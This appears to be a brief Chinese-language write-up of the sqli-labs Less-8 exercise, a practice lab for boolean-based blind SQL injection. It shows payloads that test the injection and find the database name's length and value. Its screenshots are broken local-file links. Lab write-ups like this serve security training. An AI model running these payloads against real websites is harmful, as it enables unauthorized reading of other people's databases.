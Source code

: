 title: sql-labs 8关

**Less-8** GET - Blind - Boolian Based - Single Quotes (布尔型单引号GET盲注/基于’的盲注（利用dns回显）)

布尔型盲注，单引号，id=1回显，价格单引号不回显，构造一下验证是不是布尔型payload ?id=1' and 1=1 --+ 回显了

![image-20220330095718100](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330095718100.png)

暴库payload

![image-20220330100154595](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330100154595.png)

库名长度可使用?id=1' and length(database())=8--+ 判断，同理表名字，段名等。

最后得到库名?id=1' and left((select database()),8)='security'--+